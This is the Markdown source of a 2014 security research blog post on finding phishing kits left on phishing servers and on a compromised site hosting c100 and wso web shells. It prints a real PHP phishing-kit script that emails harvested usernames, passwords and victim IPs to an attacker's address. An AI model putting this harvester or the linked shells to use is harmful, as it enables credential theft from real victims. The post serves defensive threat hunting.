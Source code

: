 ```yaml
---
layout: post
title: "How to Hunt Down Phishing Kits"
date: 2014-07-30 22:12
comments: true
categories: phishing, phishing kits
---
```

<img src="{{root_url}}/images/headers/phishing_kit.png"/>
### Introduction
Sites like [phishtank](http://www.phishtank.com/phish_archive.php) and [clean-mx](http://support.clean-mx.com/clean-mx/phishing.php) act as crowdsourced phishing detection and validation. By knowing how to look, you can consistently find [interesting information](http://jordan-wright.github.io/blog/2014/04/04/a-look-at-comment-spam-generator-scripts/) about how attackers work, and the tools they use to conduct phishing campaigns. This post will give an example of how *phishing kits* are used, how to find them, as well as show a case study into other tools attackers use to maintain access to compromised servers.
<!-- more -->
### How Phishing Kits Work
To perform a phishing attack, attackers commonly employ prebuilt *phishing kits*. These kits come as a zip archive containing the HTML source code of the site they are spoofing, as well as accompanying PHP scripts that capture and process the phished credentials. Once credentials are submitted from a victim, they are passed to a script that looks similar to this (real) example:

```php
<?php
session_start();
if(!isset($_SESSION['username']) || $_SESSION['username'] == "" || !isset($_SESSION['password']) || $_SESSION['password'] == ""){
        header("Location:file_doc.php");
        exit;
}
session_destroy();
$username = $_SESSION['username'];
$password = $_SESSION['password'];

$ip = getenv("REMOTE_ADDR");
$country = visitor_country();
$message .= "-------Moded by Ghost Wir3 ----------\n";
$message .= "Username: ".$username."\n";
$message .= "Password : ".$password."\n";
$message .= "IP: ".$ip."\n";
$message .= "Country: ".$country."\n";
$recipient = "[redacted]@gmail.com";
$subject = "Ghost Wir3 - ".$country;
$headers = "From:  Ghost Wir3 <no_reply@mail.com>";
$headers .= $_POST['eMailAdd']."\n";
$headers .= "MIME-Version: 1.0\n";

$arr = country_sort();
foreach ($arr as $recipient)
{
        mail($recipient,$subject,$message,$headers);
}
?>
```

In this example, to reuse the phishing kit, an attacker simply needs to change the ```$recipient``` variable to point to their address. In addition to this, if we as defenders are able to pull this PHP code, we can quickly identify the threat actor (in this case, [redacted]@gmail.com).

### How to Find Phishing Kits
We've seen that these kits generally require the credentials to be processed by server-side code. Unless there is a misconfiguration on the server, we will not be able to view this code, only that credentials are being passed to it.

However, with that being said, *many attackers are **lazy***. I've seen from experience that the original zip file containing the phishing kit is often left on the server, and can be downloaded to reveal the server-side source code. Additionally, the directories hosting the phishing kits often have indexing enabled, making it easier for us to see the files in the directory. This same technique has also [been used previously by researchers](https://www.usenix.org/legacy/events/woot08/tech/full_papers/cova/cova.pdf) with success.

<img src="{{root_url}}/images/blog/phish_kits/directory_index.png"/>

Knowing this, we can send requests for common archive extensions automatically in the hopes of finding the original phishing kits. These extensions include things such as .zip, .tar, .tar.gz, and .rar. For example, if the URL found by phishtank or clean-mx is http://x.x.x.x/apple/index.php, we could send requests for http://x.x.x.x/apple.zip with success in many cases.

In some cases, finding the original phishing kit can reveal even more information about the tools and techniques used by attackers. Here's an example of one of those cases.

### A Look into a Compromised Website
While performing random checks on many of the sites listed on phishtank and clean-mx, I came across one site that had a phishing kit located in the /phpmyadmin directory. When checking the files in the phishing kit, I found reference to a c100.php web shell. Sure enough, this file was still in place on the server:

<img src="{{root_url}}/images/blog/phish_kits/c100.png" />

PHP backdoors provide substantial access to attackers, facilitating further attacks and control over the compromised server. The c100.php and c99.php backdoors are among the most popular backdoors used by attackers. Through some Googling, we can see that there are **tons** of servers that are compromised using [these](https://www.google.com/search?q=inurl%3A%22c99.php%22%22AND+filetype%3Aphp+%22!C99Shell%22+AND+%22Software%22) [shells](https://www.google.com/search?q=inurl%3A%22c100.php%22%22AND+filetype%3Aphp+%22%21C100%22+AND+%22Software%22).

This shell revealed additional scripts (and other webshells) used by the attacker, including (but certainly not limited to!) the following:

*  [valider.php](https://gist.github.com/jordan-wright/966cea37b8c01c360a2a#file-valider-php) - The credential caching script
*  [wpbrute.php](https://gist.github.com/jordan-wright/966cea37b8c01c360a2a#file-wpbrute-php) - A Wordpress brute forcing script
*  [wso.php](https://gist.github.com/jordan-wright/966cea37b8c01c360a2a#file-wso-php) - Another web shell

### Fellow Phish Hunters
In the process of pulling down additional scripts used by the attacker, I ran across the site access logs. Looking through this log, I could see the details of what files the attacker was accessing on the server, as well as determine that these files were in place as early as July 27, 2014. In addition to this, I found the following snippet:

```
[29/Jul/2014:02:59:44 +0100] "GET /phpmyadmin/tardis.zip HTTP/1.1" 404 428 "-" "Java/1.7.0_45"
[29/Jul/2014:02:59:44 +0100] "GET /phpmyadmin/paypal/tardis.zip HTTP/1.1" 404 435 "-" "Java/1.7.0_45"
[29/Jul/2014:02:59:45 +0100] "GET /phpmyadmin/paypal/paypal.zip HTTP/1.1" 404 435 "-" "Java/1.7.0_45"
[29/Jul/2014:02:59:45 +0100] "GET /phpmyadmin/paypal/wellsfargo.zip HTTP/1.1" 404 439 "-" "Java/1.7.0_45"
[29/Jul/2014:02:59:45 +0100] "GET /phpmyadmin/paypal/chase.zip HTTP/1.1" 404 434 "-" "Java/1.7.0_45"
[29/Jul/2014:02:59:45 +0100] "GET /phpmyadmin/paypal/boa.zip HTTP/1.1" 404 432 "-" "Java/1.7.0_45"
[29/Jul/2014:02:59:45 +0100] "GET /phpmyadmin/paypal/update.zip HTTP/1.1" 404 435 "-" "Java/1.7.0_45"
[29/Jul/2014:02:59:45 +0100] "GET /phpmyadmin/paypal/pp.zip HTTP/1.1" 404 431 "-" "Java/1.7.0_45"
[29/Jul/2014:02:59:45 +0100] "GET /phpmyadmin/paypal/wells.zip HTTP/1.1" 404 434 "-" "Java/1.7.0_45"
[29/Jul/2014:02:59:45 +0100] "GET /phpmyadmin/paypal/remax.zip HTTP/1.1" 404 434 "-" "Java/1.7.0_45"
[29/Jul/2014:02:59:46 +0100] "GET /phpmyadmin/paypal/paypal.com.zip HTTP/1.1" 404 439 "-" "Java/1.7.0_45"
[29/Jul/2014:02:59:46 +0100] "GET /phpmyadmin/paypal/us.zip HTTP/1.1" 404 431 "-" "Java/1.7.0_45"
[29/Jul/2014:02:59:47 +0100] "GET /phpmyadmin/paypal/www.paypal.com.zip HTTP/1.1" 404 443 "-" "Java/1.7.0_45"
[29/Jul/2014:02:59:47 +0100] "GET /phpmyadmin/paypal/bankofamerica.com.zip HTTP/1.1" 404 446 "-" "Java/1.7.0_45"
```

We can see that someone has a Java bot that is performing the same technique I described above, by automatically sending requests for common phishing kits. In fact, this and another bot submitted a **substantial** number of requests for common files to be found on phishing kits. I'll likely parse these out and make another blog post with the full list for those interested.

### Conclusion
Hopefully this post not only shows a few of the interesting pieces of information we can find when investigating servers used for phishing campaigns, but also that there is still an incredible amount of work to be done in identifying threat actors behind phishing campaigns. As always, let me know if you have any questions or comments below!

-Jordan ([@jw_sec](http://twitter.com/jw_sec))
